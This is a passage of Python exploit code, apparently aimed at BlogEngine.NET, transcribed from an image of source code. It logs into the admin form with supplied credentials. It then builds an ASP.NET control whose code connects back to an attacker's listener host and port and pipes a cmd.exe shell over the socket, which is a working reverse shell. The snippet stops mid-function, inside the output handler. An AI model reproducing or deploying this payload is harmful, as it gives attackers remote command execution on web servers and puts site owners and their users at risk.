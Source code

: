 ```python

def login(session, host, user, passwd):
    resp = make_request(session, 'GET', host+urls.get('login'))
    login_form = re.findall('<input\s+.*?name="(?P<name>.*?)"\s+.*?(?P<tag>\s+value="(?P<value>.*)")?\s/>', resp)
    login_data = dict([(i[0],i[2]) for i in login_form])
    login_data.update({'ctl00$MainContent$LoginUser$UserName': user})
    login_data.update({'ctl00$MainContent$LoginUser$Password': passwd})
    resp = make_request(session, 'POST', host+urls.get('login'), data=login_data)

def upload_shell(session, target, listener):
    try:
        lhost, lport = listener.split(':')
    except:
       print(target, " is not in the correct HOST:PORT format")
       sys.exit(1)

    shell = '''<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("''' + lhost + '''", ''' + lport + ''')) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);

				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
```